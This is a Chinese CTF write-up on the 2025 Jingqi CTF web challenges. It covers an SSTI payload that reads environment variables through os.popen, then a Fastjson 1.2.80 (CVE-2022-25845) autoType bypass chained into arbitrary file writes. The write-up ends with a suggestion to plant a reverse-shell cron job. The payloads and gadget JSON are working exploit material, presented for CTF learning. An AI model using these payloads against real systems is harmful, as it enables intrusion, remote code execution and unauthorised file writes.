

# 2025京麒杯web-先知社区

> **来源**: https://xz.aliyun.com/news/18127  
> **文章ID**: 18127

---

# 2025京麒CTF初赛-web

# 计算器

前端删除expression的disable，然后就可以正常输入了。

且该题为ssti

payload：

|  |
| --- |
| ''.\_\_class\_\_.\_\_mro\_\_[1].\_\_subclasses\_\_()[80].\_\_init\_\_.\_\_globals\_\_['\_\_builtins\_\_']['eval']('\_\_import\_\_("os").popen("env").read()') |

flag在环境变量中

这是非预期解

预期解是：<https://blog.csdn.net/weixin_59166557/article/details/148202808>

​

‍

# FastJ 复现

附件：[FastJ-1.0-SNAPSHOT-11.jar](https://www.cnblogs.com/symv1a/p/18900307/assets/FastJ-1.0-SNAPSHOT-11-20250524151158-2xngupf.jar)

参考：<https://www.ctfiot.com/249673.html>

<https://www.cnblogs.com/symv1a/p/18900307/2025-jingqi-ctf-preliminary-competitionweb-z108qvu>

## 前置知识

### fastjson的“AutoTypeCheck”机制

Fastjson 从1.2.68开始引入白名单，在 1.2.80 中更加严格。只有在 **白名单** 中的类才能通过 @type 被反序列化。

* 一些常见 Java 基础类，例如：

* java.util.HashMap
* java.util.ArrayList
* java.lang.Integer
* java.lang.String

* 特定配置下用户添加的类（通过 ParserConfig.addAccept("com.example.")）
* 特定第三方库被明示允许的类（比如某些 JSON 处理类）

不再支持自动根据 @type 加载任意类。

‍

### fastjson的类缓存机制

Fastjson的类缓存机制：ParserConfig.classMapping

当使用 @type 加载了一个类，Fastjson 会把它缓存起来：

```
classMapping.put(typeName, clazz);
```

这是为了提升解析性能、减少重复反射。

所以，**只要你通过** **@type** **加载了某个类**，Fastjson 后续就可以：

* 复用这个 Class 实例
* 不再检查autoType（因为已经被认为是“合法的”了）

缓存机制由来：

* 该机制很早就有（至少在 1.2.6+ 就存在），本是出于性能目的
* 后来被用于各种 Gadget 利用链中作为“class 引导缓存”技巧

‍

### rmb

**RMI-Based MarshalOutputStream**

是 JDK 自带的一个类：sun.rmi.server.MarshalOutputStream

* ObjectOutputStream 的子类；
* 在对象序列化过程中，**会调用其内部 OutputStream 的 write 方法**；
* 是 JDK RMI 模块中用于序列化对象时的工具类。

可以利用反序列化触发 write()，实现数据流写入

‍

### InflaterOutputStream

标准 JDK 类，负责接收压缩数据 → 解压 → 向底层流写入

‍

## 解题过程

fastjson版本为1.2.80

核心代码：

```
// IndexController.java
@RestController
public class IndexController {
    @RequestMapping(value={"/"})
    public Object fastj(String json) { 
        if (json == null) {
            return JSON.toJSONString((Object)"json is null");
        }
        try {
            return JSON.parse((String)json);  // Fastjson.parse，会尝试解析 @type 并实例化对象
        }
        catch (Exception e) {
            return e.toString();
        }
    }

    private void getflag() throws FileNotFoundException {
        new FilterFileOutputStream("/flag", "/");
    }
}

// FilterFileOutputStream.java
public class FilterFileOutputStream
extends FileOutputStream {
    public FilterFileOutputStream(String name, String prefix) throws FileNotFoundException {
        super(name);
        if (!name.startsWith(prefix)) {
            return;
        }
    }
}
```

调用getflag()会触发new FilterFileOutputStream("/flag", "/");将触发调用FilterFileOutputStream类，构造函数调用 super(name) ➜ 调用了 FileOutputStream(String name) ➜ **会尝试打开或新建这个文件**

‍

试探一下autotype是否开启

```
{
  "@type":"java.lang.Exception",
  "detailMessage":"test"
}
```

开启。那就可以借助Fastjson 的反序列化能力，构造这样一个对象：

```
{
  "@type": "your.pkg.FilterFileOutputStream",
  "name": "/flag",
  "prefix": "/"
}
```

但存在“AutoTypeCheck”机制，由于 FilterFileOutputStream 不在白名单中，**无法被正常反序列化**

‍

关于FastJson 1.2.80的利用，找到CVE-2022-25845

[CVE-2022-25845 - Fastjson RCE 漏洞分析](https://jfrog.com/blog/cve-2022-25845-analyzing-the-fastjson-auto-type-bypass-rce-vulnerability/)

该漏洞的核心在于只要目标类继承了Throwable类，Fastjson就能反序列化这个目标类。

‍

### 将 OutputStream 加入autoType 缓存

[luelueking/CVE-2022-25845-In-Spring: CVE-2022-25845(fastjson1.2.80) exploit in Spring Env!](https://github.com/luelueking/CVE-2022-25845-In-Spring)

该项目是一个把java.io.InputStream加入fastjson autotype 缓存的demo，简单看看这个项目

```
{
  "a": "{  "@type": "java.lang.Exception", "@type": "com.fasterxml.jackson.core.exc.InputCoercionException", "p": {} }",
  "b": { "$ref": "$.a.a" },
  "c": "{  "@type": "com.fasterxml.jackson.core.JsonParser", "@type": "com.fasterxml.jackson.core.json.UTF8StreamJsonParser", "in": {} }",
  "d": { "$ref": "$.c.c" }
}
```

其核心链条：

```
Throwable bypass: InputCoercionException
  └─ contains → UTF8StreamJsonParser
       └─ field `in` → InputStream
```

Fastjson 在构造这些类时会顺便初始化其字段类型（如 in: InputStream），从而将 InputStream 加入 autoType 缓存。

根据上述思路找 OutputStream Gadget的思路

* **继承 Throwable**
* **有字段指向**某个含 OutputStream 成员的类
* **类路径没有被 Fastjson 拦截**

在BOOT-INF/lib/中查看项目依赖



发现jackson生态全套，其中jackson-core-2.13.2.jar中包含 UTF8JsonGenerator，可构造 OutputStream 缓存链

使用Mini-Venom师傅构造的gadget

```
UTF8JsonGenerator
JsonGenerator
JsonGenerationException
Exception
```

payload

```
{
  "a": "{ "@type": "java.lang.Exception", "@type": "com.fasterxml.jackson.core.JsonGenerationException", "g": {} }",
  "b": { "$ref": "$.a.a" },
  "c": "{ "@type": "com.fasterxml.jackson.core.JsonGenerator", "@type": "com.fasterxml.jackson.core.json.UTF8JsonGenerator", "out": {} }",
  "d": { "$ref": "$.c.c" }
}
```

得到回显，说明绕过了“AutoTypeCheck”机制

```
HTTP/1.1 200 
Content-Type: application/json
Date: Tue, 27 May 2025 13:42:23 GMT
Keep-Alive: timeout=60
Connection: keep-alive
Content-Length: 273

{"a":"{"@type":"java.lang.Exception","@type":"com.fasterxml.jackson.core.JsonGenerationException","g":{}}","b":null,"c":"{"@type":"com.fasterxml.jackson.core.JsonGenerator","@type":"com.fasterxml.jackson.core.json.UTF8JsonGenerator","out":{}}","d":null}
```

‍

### 任意文件写入

题目实现了FilterFileOutputStream类，可以通过@type加载

利用 JDK 的标准类 InflaterOutputStream 和 MarshalOutputStream 可以在反序列化期间**触发写入流数据**

```
Fastjson parse()
  ↓
MarshalOutputStream.readObject()
  ↓
InflaterOutputStream
     └── infl.input.array → base64压缩数据
     └── infl.limit → 解压后长度
  ↓
FilterFileOutputStream → 文件创建并写入
```

1. MarshalOutputStream

* 属于 JDK 中 RMI 模块：sun.rmi.server.MarshalOutputStream
* 在 readObject() 过程中会触发它包装的底层 OutputStream.write() 方法

```
public class MarshalOutputStream extends ObjectOutputStream {
    ...
    // 会写入下层 OutputStream
}
```

1. InflaterOutputStream

* 是一个解压类，持有字段：

```
OutputStream out;
Inflater infl;
byte[] buf;
```

* 其中 infl.input.array 被赋值后，当 InflaterOutputStream.write() 触发时会**尝试将解压数据写入** **out**

1. FilterFileOutputStream（题目实现）

```
public class FilterFileOutputStream extends FileOutputStream {
    public FilterFileOutputStream(String name, String prefix) throws FileNotFoundException {
        super(name); // 打开或创建目标文件
        if (!name.startsWith(prefix)) return;
    }
}
```

* 只要满足 name.startsWith(prefix) 条件，就会成功创建文件；
* 而 super(name) 会在构造函数中就打开文件；
* 之后通过反序列化链流入的内容会写进去。

‍

进而可以构造出payload

```
{
  "@type": "java.io.OutputStream",
  "@type": "sun.rmi.server.MarshalOutputStream",
  "out": {
    "@type": "java.util.zip.InflaterOutputStream",
    "out": {
      "@type": "com.app.FilterFileOutputStream",  ← 自定义类
      "name": "/tmp/test",
      "prefix": "/"
    },
    "infl": {
      "input": {
        "array": "<base64压缩数据>",
        "limit": <解压后的长度>
      }
    },
    "bufLen": "100"
  },
  "protocolVersion": 1
}
```

array: 压缩后的字符串内容

**数据压缩部分的 Java 实现代码解析**

```
package exp;

import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.util.Base64;
import java.util.zip.DeflaterOutputStream;

public class Array {

    public static void main(String[] args) {
        try {
            // 写入文件的原始内容
            String input = "test";

            // 压缩并编码
            ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
            try (DeflaterOutputStream deflaterOutputStream =
                         new DeflaterOutputStream(byteArrayOutputStream)) {
                deflaterOutputStream.write(input.getBytes("UTF-8"));
            }

            // 获取 Base64 编码后的结果
            byte[] compressedBytes = byteArrayOutputStream.toByteArray();
            String encoded = Base64.getEncoder().encodeToString(compressedBytes);
            int leng = compressedBytes.length;

            // 输出结果
            System.out.println("Base64 array: " + encoded);
            System.out.println("Length: " + leng);
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}
```

然后写定时任务反弹shell
